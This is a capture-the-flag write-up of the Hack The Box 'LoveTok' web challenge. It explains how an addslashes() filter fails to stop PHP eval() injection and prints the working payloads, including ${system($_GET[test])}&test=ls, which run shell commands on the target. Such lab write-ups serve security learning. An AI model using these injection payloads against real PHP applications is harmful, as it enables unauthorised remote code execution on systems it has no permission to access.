

# ***LoveTok :HTB challenge Writeup***

this post is about a writeup of LoveTok web challenge in Hack The Box. It is a <span style="color:red;"> addslashes() php function sanitisation bypass </span> challenge

## description of the challenge


files with the source code as well as the docker file were provided with the challenge 

## website overview

upon clicking on "nah, that doesn't work for me.Try again!" button a new time will be shown.However we can notice in the url that "?format=r" has been appended
 ```
 http://144.126.234.86:31134/?format=r
 ```

## analysing the source code 

well while examinating the provided source code, I discovered two noteworthy files <span style="color:green;">TimeController.php</span> and <span style="color:green;">TimeModel.php</span>
the TimeController class appears to utilize the value from the 'format' key as an input and passes it as an argument to the TimeModel class, as demonstrated below:


well the value from the "format" parameter is being passed to the <span style="color:green;">TimeModel</span> controller

when we look at the code in the <span style="color:green;">TimeModel</span> class we will see that the value from the "format" parameter is bein cleaned by adding a slash in front of certain characters that need to be escaped.These charachters are :

    single quote (')
    double quote (")
    backslash (\)
    NUL (the NUL byte)

using the [addslashes()](https://www.php.net/manual/en/function.addslashes.php) function 


analysing more the code we will find that our input is being executed buy eval() this is then our vulnerability 
 where we can easily obtain Remote Code Execution (RCE) and pwn our challenge with the flag

our payload should look then like this :
```
?format=");system("ls")//
```
but this would not work because of the addslashes() function so we should look for a way to bypass this well luckily i found this [article](https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php)

- while <span style="color:red"> ); phpinfo()//</span> would be prevented by calling the addslashes function,<span style="color:red"> ${phpinfo()}</span> certainly would not.and this the result
```
144.126.234.86:31134/?format=${phpinfo()}
```

and Bingoo this worked now let's continue to our main function <span style="color:red">${system("ls")}</span>
but executing that payload won't work because of the addslashes() function before the double quotes

so here is the solution 
```
?format=${system($_GET[test])}&test=ls
```
in this scenario :
- format parameter is evaluated by the *addslashes()* function before it is processed further
- the variable *test* is not evaluated function,and in fact bypassing it completely 
and this is our output:

there it is !!! so now let's find the flag looking at the docker file :


we can clearly see that the flag is in the **/** directorty let's then execute
```
?format=${system($_GET[test])}&test=ls /
```


now this is the name of our flag : **flagi3UCD** let's open it with **cat** 


I hope this post has been helpful to you.Thank you for reading and happy Hacking!!